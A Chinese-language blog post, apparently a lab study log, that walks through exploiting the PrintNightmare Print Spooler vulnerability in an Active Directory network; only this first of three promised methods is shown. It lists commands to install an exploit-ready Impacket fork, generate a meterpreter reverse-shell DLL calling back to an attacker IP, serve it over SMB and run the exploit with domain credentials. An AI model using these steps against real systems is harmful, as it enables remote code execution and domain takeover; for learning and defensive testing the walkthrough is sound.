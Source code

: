 #  AD域内网渗透-三种漏洞利用方式   
jzhoucdc  泷羽Sec   2025-04-19 00:11  
  
本文基于AD域内网渗透中三种漏洞利用的学习记录。  
## PrintNightmare  
  
PrintNightmare包括两项漏洞CVE-2021-34527 和 CVE-2021-1675，这些漏洞存在于Windows操作系统上的打印后台处理程序（Print Spooler）服务中。目前基于该漏洞，已经有很多的利用代码，允许进行权限提升和远程代码执行**。**  
这个漏洞可以在本地环境提权，也可以在AD域内网环境中获取shell**。**  
### 环境配置  
  
为了利用成功，我们需要使用cube0x0版本的Impacket：  
> git clone https://github.com/cube0x0/impacket  
> cd impacket  
> python3 ./setup.py install  
  
### 漏洞确认  
  
**Print System Asynchronous Protocol**  
和**Print System Remote Protocol**  
是与打印服务相关的协议，在利用漏洞之前，确认目标系统是否暴露。  
> rpcdump.py @IP | egrep 'MS-RPRN|MS-PAR'  
  
  
![1744597137_67fc7091ed9e7cd02f35b.png!small?1744597138738](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BMhrJJ1697Bg0EoFaIWMwChQibrJMjWEA1FUF6bxG6HBw0JItoOT2Dbw/640?wx_fmt=jpeg&from=appmsg "")  
### 生成DLL payload  
  
在确认后，生成一个DLL利用：  
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll  
  
  
![1744597202_67fc70d2630b5a4b81d49.png!small?1744597212841](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BnHY3hwmFYjCTNdxFYz7cJFBPl3kBrLA1LzYTqDjibVNVgT6D8uPfwvQ/640?wx_fmt=jpeg&from=appmsg "")  
### 使用MSF multi/handler  
  
准备接受shell  
  
![1744596535_67fc6e37cef6da798e857.png!small?1744596536762](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9BPHO6ZYe6gZG9CapYpsnhyukgzvrORzcxaxJgUlPzSm6Awj8qrnGBXQ/640?wx_fmt=jpeg&from=appmsg "")  
### 创建smb共享  
> sudo smbserver.py -smb2support CompData /home/htb-student/CompData/  
  
  
![1744596644_67fc6ea4babe2b65ca1a8.png!small?1744596645661](https://mmbiz.qpic.cn/mmbiz_jpg/5975bXHXfWElmicQfyttQ4ULfUdkaNe9Bv6OCJPwx7AK1YnNfNw5AfpXHlo9cLjrDApYYUiciaAplozpLotZ6wZwQ/640?wx_fmt=jpeg&from=appmsg "")  
### 漏洞利用  
  
一切准备就绪，利用漏洞  
> sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'  
  